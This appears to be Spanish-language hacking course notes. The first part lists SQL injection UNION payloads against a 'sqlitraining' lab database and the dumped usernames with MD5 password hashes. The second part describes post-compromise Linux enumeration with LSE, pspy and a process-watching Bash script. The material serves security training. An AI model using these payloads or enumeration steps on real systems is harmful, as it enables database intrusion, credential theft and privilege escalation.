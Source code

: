 | voldemort | 856936b417f82c06139c74fa73b1abbe (horcrux)  |
| frodo     | f0f8820ee817181d9c6852a097d70d8d (frodo)    |
| hodor     | a55287e9d0b40429e5a944d10132c93e (hodor)    |
| rhombus   | e52848c0eb863d96bc124737116f23a4 (rhombus)  |
+-----------+---------------------------------------------+





searchitem=a' union select 1,schema_name,1,1,1 FROM information_schema.schemata -- -


searchitem=a' union SELECT 1,table_name,1,1,1  FROM information_schema.tables WHERE table_schema='sqlitraining' -- -


searchitem=a' union SELECT 1,column_name,1,1,1 FROM information_schema.columns  WHERE table_schema='sqlitraining' and table_name='users'-- -


searchitem=' union SELECT 1,username, password,1,1 FROM sqlitraining.users -- -

searchitem=' union SELECT 1,group_concat(username,0x3A,password),1,1,1 FROM sqlitraining.users -- -


admin:21232f297a57a5a743894a0e4a801fc3
bob:5f4dcc3b5aa765d61d8327deb882cf99
ramesh:9aeaed51f2b0f6680c4ed4b07fb1a83c
suresh:9aeaed51f2b0f6680c4ed4b07fb1a83c
alice:c93239cae450631e9f55d71aed99e918
voldemort:856936b417f82c06139c74fa73b1abbe
frodo:f0f8820ee817181d9c6852a097d70d8d
hodor:a55287e9d0b40429e5a944d10132c93e
rhombus:e52848c0eb863d96bc124737116f23a4





# Enumeración del sistema

En la clase, discutiremos la importancia de realizar una enumeración adecuada del sistema una vez que se ha logrado vulnerar su seguridad. La enumeración es un proceso crítico para identificar por ejemplo vías potenciales de poder elevar nuestros privilegios de usuario, así como para comprender la estructura del sistema objetivo y encontrar información útil para futuros ataques.

Algunas de las herramientas que vemos en esta clase son:

LSE (Linux Smart Enumeration): Es una herramienta de enumeración para sistemas Linux que permite a los atacantes obtener información detallada sobre la configuración del sistema, los servicios en ejecución y los permisos de archivo. LSE utiliza una variedad de comandos de Linux para recopilar información y presentarla en un formato fácil de entender. Al utilizar LSE, los atacantes pueden detectar posibles vulnerabilidades y encontrar información valiosa para futuros ataques.
Pspy: Es una herramienta de enumeración de procesos que permite a los atacantes observar los procesos y comandos que se ejecutan en el sistema objetivo a intervalos regulares de tiempo. Pspy es una herramienta útil para la detección de malware y backdoors, así como para la identificación de procesos maliciosos que se ejecutan en segundo plano sin la interacción del usuario.
Asimismo, desarrollaremos un script en Bash ideal para detectar tareas y comandos que se ejecutan en el sistema a intervalos regulares de tiempo, abusando para ello del comando ‘ps -eo user,command‘ que nos chivará todo lo que necesitamos.
